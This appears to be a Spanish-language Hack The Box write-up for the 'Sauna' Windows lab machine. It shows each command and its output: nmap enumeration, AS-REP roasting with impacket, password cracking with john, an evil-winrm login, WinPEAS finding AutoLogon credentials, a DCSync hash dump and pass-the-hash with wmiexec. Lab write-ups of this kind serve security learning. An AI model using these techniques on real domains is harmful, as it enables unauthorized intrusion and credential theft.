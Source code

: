 
<p align="center">
<img src="https://miro.medium.com/v2/resize:fit:593/1*EBQbuWg_rrm5dHMNrR6jCQ.png">
</p>

Sauna es una máquina Windows de dificultad fácil en la cual se va a realizar un ataque de AS-REP-Roasting y en la fase de escalamiento de privilegios enumeración con la herramienta WinPEAS donde encontramos una contraseña y posteriormente hacer el volcado de los hashes de las contraseña del Domain Controller.


## Reconocimiento y Enumeración

### Ping

En primer lugar se debe revisar que la máquina esté activa. Hacemos un ping usando el siguiente comando:
`ping -c 1 sauna.htb`

- `-c <n>` = realizar *n* veces el ping

### Nmap

Se procede a realizar un escaneo de todos los puertos con la herramienta nmap usando el siguiente comando:
`nmap -p- --open -T5 -v -n sauna.htb -oG all-ports`

- `-p-:` escanea todos los 65536 puertos
- `--open:` solo se va a tener en cuenta los puertos abiertos
- `-T5:` establece la plantilla de temporización, el rango es entre 0-5 y por lo tanto, el escaneo va a ir a una mayor velocidad
- `-v:` cuando nmap descubre un puerto, lo imprime por consola
- `-n:` se desactiva la resolución de DNS
- `-oG:` el archivo se va a guardar en formato grepable 

El output de nmap es el siguiente:

```console
┌─[nicolasmira101@parrot]─[~/Documents/Hack-the-box/Maquinas/Sauna]           
└──╼ $nmap -p- --open -T5 -v -n sauna.htb -oG all-ports                
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-17 11:53 EDT

PORT      STATE SERVICE                    
53/tcp    open  domain                       
80/tcp    open  http                 
88/tcp    open  kerberos-sec   
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
9389/tcp  open  adws
```

Una vez se sabe qué puertos están abiertos en la máquina objetivo se procede a revisar las versiones de los servicios usando el comando:
`nmap -sC -sV -p80,135,139,389,445 sauna.htb -oN targeted.txt`

- `-sC:`  realiza un escaneo usando los scripts por defecto que se encuentran en la base de datos de nmap.
- `-sV:` intenta encontrar la versión del servicio que está corriendo en el puerto correspondiente.
- `-p:` se establece los puertos que deseo hacer el escaneo.
- `oN:` el archivo se va a guardar en un formato normal, en este caso en formato de texto.

El output de nmap es el siguiente:

```console
┌─[nicolasmira101@parrot]─[~/Documents/Hack-the-box/Maquinas/Sauna]           
└──╼ $nmap -sC -sV -p80,135,139,389,445 sauna.htb -oN targeted.txt   
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-17 11:56 EDT

PORT    STATE SERVICE       VERSION
80/tcp  open  http          Microsoft IIS httpd 10.0                           
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Egotistical Bank :: Home
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp open  microsoft-ds?
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows


Host script results:
|_clock-skew: 7h00m54s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-06-04T22:40:33
|_  start_date: N/A
```

Algunos de los puertos que están abiertos corresponde a los siguientes servicios:

- `Puerto 80 (HTTP):` se utiliza para la navegación web de forma no segura.
- `Puerto 445 (SMB):` compartir archivos a través de una red TCP/IP Windows.

### Enumeración HTTP

Revisando el sitio web, nos dirigimos a la pestaña `About us` y al final encontramos el nombre de varias personas, así que procedemos a crear un diccionario con diferentes combinaciones posibles de usuarios, así como se presenta a continuación

```bash
fergussmith
smithfergus
fsmith
ferguss
fergus-smith
f.smith
fergus.smith
shauncoins
coinsshaun
scoins
shaunc
shaun-coins
hugobear
bearhugo
hbear
hugob
hugo-bear
h.bear
hugo.bear
bowietaylor
taylorbowie
btaylor
bowiet
bowie-taylor
b.taylor
bowie.taylor
sophiedriver
driversophie
sdriver
sophied
```




## Explotación

Usando el script `GetNPUsers.py` de [impacket](https://github.com/SecureAuthCorp/impacket) podemos extraer el hash de los usuarios que en el Active Directory tengan habilitada la opción de no permitir pre-autenticación de Kerberos.

```console
┌──[nicolasmira101@parrot]─[~/Documents/Hack-the-box/Maquinas/Sauna]
└──╼ $python3 /opt/impacket/examples/GetNPUsers.py EGOTISTICALBANK/ -usersfile usuarios.txt -format john -outputfile hashes.asreproast 
-dc-ip sauna.htb                                                                                                                       
Impacket v0.9.22.dev1+20200603.152956.fe40cb04 - Copyright 2020 SecureAuth Corporation
```

Abrimos el archivo `hashes.asreproast` y encontramos que está el hash del usuario `fsmith`

```
┌─[nicolasmira101@parrot]─[~/Documents/Hack-the-box/Maquinas/Sauna]
└──╼ $cat hashes.asreproast 
$krb5asrep$fsmith@EGOTISTICALBANK:5bcbf870635e6fa3f045b33d7024e87b$98a81453df923b5ee80e6d51ea48611c44ed257c0972d9d5e5a08cdd3911ee519db89a9629bde7f02cb02c1c39f6c1d46a53ad7b565f08be74c007fcea137354b10e4041ec678d95e216b9163ff0cab491b19280714b939b7758369859105a7fde84520feefa5d03f4520a7e4635603cbfc01b3507164206351ea92302a45f6e738f38ea6828555996d7ef91dade424a4cb971850032a2f919b008d8e19b8c80ceecad5c01438c97ec12ffc2bd1c50e1d80ecf8190d017f6129f9f54ca50dec1a0b2a7afddfe00e57a396c177e330cdd9e12fb629657a4ef5df25f25727ba60f54e25edef7882f65096ae6bb01779c949b30bbf8e838071f7b
```

Usando la herramienta `john` vamos a crackear el hash encontrado anteriormente 

```
┌─[nicolasmira101@parrot]─[~/Documents/Hack-the-box/Maquinas/Sauna]
└──╼ $sudo john --wordlist=/usr/share/wordlists/rockyou.txt hashes.asreproast 
[sudo] password for nicolasmira101: 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Thestrokes23     ($krb5asrep$fsmith@EGOTISTICALBANK)
1g 0:00:00:41 DONE (2020-06-04 11:12) 0.02437g/s 256854p/s 256854c/s 256854C/s Thing..Thereisnospoon
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```

Nos conectamos vía evil-winrm usando las credenciales encontradas anteriormente del usuario `fsmith` y ya obtendremos la flag del usuario

```bash
┌─[nicolasmira101@parrot]─[~/Documents/Hack-the-box/Maquinas/Sauna]
└──╼ $evil-winrm -i 10.10.10.175 -u fsmith -p Thestrokes23

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\FSmith\Documents> type ../Desktop/user.txt
1b5520...........................
```




## Escalamiento de privilegios

Descargamos y luego transferimos a la máquina Windows, la herramienta [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASexe/winPEAS/bin/Obfuscated%20Releases) para realizar la enumeración del sistema y nos damos cuenta que arroja una contraseña

```bash
*Evil-WinRM* PS C:\Users\FSmith\Documents> upload /opt/winPEASx64.exe
Info: Uploading /opt/winPEASx64.exe to C:\Users\FSmith\Documents\winPEASx64.exe

*Evil-WinRM* PS C:\Users\FSmith\Documents> ./winPEASx64.exe

[+] Looking for AutoLogon credentials(T1012)            
Some AutoLogon credentials were found!!  
DefaultDomainName             :  EGOTISTICALBANK
DefaultUserName               :  EGOTISTICALBANK\svc_loanmanager
DefaultPassword               :  Moneymakestheworldgoround!
```

Ahora, con la herramienta `impacket-secretsdump` vamos a hacer el volcado de los hashes de las contraseñas del Domain Controller y como podemos observar en la siguiente consola, ya tenemos el hash de la contraseña del `Administrator`

```bash
┌─[root@parrot]─[/opt]            
└──╼ #impacket-secretsdump "egotistical-bank.local/svc_loanmgr:Moneymakestheworldgoround!"@10.10.10.175 -dc-ip 10.10.10.175            
Impacket v0.9.22.dev1+20200603.152956.fe40cb04 - Copyright 2020 SecureAuth Corporation 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)                        
[*] Using the DRSUAPI method to get NTDS.DIT secrets                                                                                   
Administrator:500:aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:4a8899428cad97676ff802229e466e2c:::
```

Finalmente usamos el comando `wmiexec` de impacket para abrir una shell semi-interactiva utilizando WMI (Windows Management Instrumentation). De esta forma, ya obtendremos la flag del Administrator.

```bash
┌──[root@parrot]─[/opt]                                    
└──╼ #impacket-wmiexec -hashes :d9485863c1e9e05851aa40cbb4ab9dff Administrator@10.10.10.175
Impacket v0.9.22.dev1+20200603.152956.fe40cb04 - Copyright 2020 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
egotisticalbank\administrator

C:\>type C:\Users\Administrator\Desktop\root.txt
f3ee04...........................
```

````

````
